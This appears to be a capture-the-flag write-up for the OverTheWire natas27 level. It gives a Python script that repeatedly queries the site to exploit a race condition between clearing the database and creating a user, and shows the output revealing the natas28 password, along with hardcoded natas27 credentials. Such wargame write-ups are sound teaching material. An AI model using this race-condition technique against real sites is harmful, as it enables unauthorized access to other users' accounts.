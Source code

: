It seems the database clearing and creation of the natas28 user is not in one transaction but has some delay between them.

```python
#!/usr/bin/env python3
import requests

params = {'username': 'natas28', 'password': ''}
auth = ('natas27', '55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ')
while True:
    r = requests.get('http://natas27.natas.labs.overthewire.org/', params = params, auth = auth)
    if 'Here' in r.text:
        print(r.text)
        break
```

```
Welcome natas28!
Here is your data:
Array
(
    [username] => natas28
    [password] => JWwR438wkgTsNKBbcJoowyysdM82YjeF
)
```
